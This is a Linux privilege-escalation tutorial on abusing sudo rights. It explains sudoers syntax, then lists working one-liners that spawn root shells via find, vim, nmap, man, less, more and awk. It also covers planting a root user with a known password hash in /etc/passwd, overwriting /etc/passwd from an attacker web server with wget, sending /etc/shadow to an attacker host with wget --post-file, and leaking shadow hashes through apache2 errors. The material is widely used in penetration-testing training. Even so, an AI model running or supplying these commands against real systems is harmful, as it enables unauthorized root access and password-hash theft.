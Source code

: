 ---- Credits to Touhid M.Shaikh ----


Sudoers File

  

SUDOers


    sudo -l
  
 
Sudoer File Syntax.

  root ALL=(ALL) ALL

Explain 1: The root user can execute from ALL terminals, acting as ALL (any) users, and run ALL (any) command.

The first part is the user, the second is the terminal from where the user can use the sudocommand, the third part is which users he may act as, and the last one is which commands he may run when using.sudo

  user1 ALL= /sbin/poweroff
  
Explain 2: The above command, makes the user user1 can from any terminal, run the command power off using user1’s user password.

  user1 ALL = (root) NOPASSWD: /usr/bin/find
  
Explain 3:  The above command, make the user touhid can from any terminal, run the command find as root user without password.

Exploiting SUDO Users.
To Exploiting sudo user u need to find which command u have to allow.
sudo -l

The above command shows which command have allowed to the current user.


Here sudo -l, Shows the user has all this binary allowed to do as on root user without password.

Let’s take a look at all binary one by one (which is mention in index only) and Escalate Privilege to root user.

Using Find Command
sudo find /etc/passwd -exec /bin/sh \;
or

sudo find /bin -name nano -exec /bin/sh \;
Using Vim Command
sudo vim -c '!sh'
Using Nmap Command
Old way.

  sudo nmap --interactive
  nmap> !sh
  sh-4.1#
  Note : nmap –interactive option not available in latest nmap.

Latest Way without –interactive

echo "os.execute('/bin/sh')" > /tmp/shell.nse && sudo nmap --script=/tmp/shell.nse
Using Man Command
sudo man man
after that press !sh and hit enter

Using Less/More Command
sudo less /etc/hosts
sudo more /etc/hosts
after that press !sh and hit enter

Using awk Command

 sudo awk 'BEGIN {system("/bin/sh")}'
 
Using nano Command
nano is text editor using this editor u can modify passwd file and add a user in passwd file as root privilege after that u need to switch user. Add this line in /etc/passwd to order to add the user as root privilege.

touhid:$6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:0:0:root:/root:/bin/bash

sudo nano  /etc/passwd
now switch user password is : test

su touhid
Using wget Command
this very cool way which requires a Web Server to download a file. This way i never saw on anywhere. lets explain this.

On Attaker Side.

First Copy Target’s /etc/passwd file to attacker machine.
modify file and add a user in passwd file which is saved in the previous step to the attacker machine.
append this line only =>  touhid:$6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:0:0:root:/root:/bin/bash
host that passwd file to using any web server.
On Victim Side.

sudo wget http://192.168.56.1:8080/passwd -O /etc/passwd
now switch user password is : test

su touhid
Note: if u want to dump file from a server like a root’s ssh key, Shadow file etc.

sudo wget --post-file=/etc/shadow 192.168.56.1:8080
Setup Listener on attacker : nc –lvp 8080

Using apache Command
sadly u cant get Shell and Cant edit system files.

but using this u can view system files.

sudo apache2 -f /etc/shadow
Output is like this :

Syntax error on line 1 of /etc/shadow:
Invalid command 'root:$6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:17298:0:99999:7:::', perhaps misspelled or defined by a module not included in the server configuration
Sadly no Shell. But you manage to extract root hash now Crack hash in your machine. For Shadow Cracking click here for more.
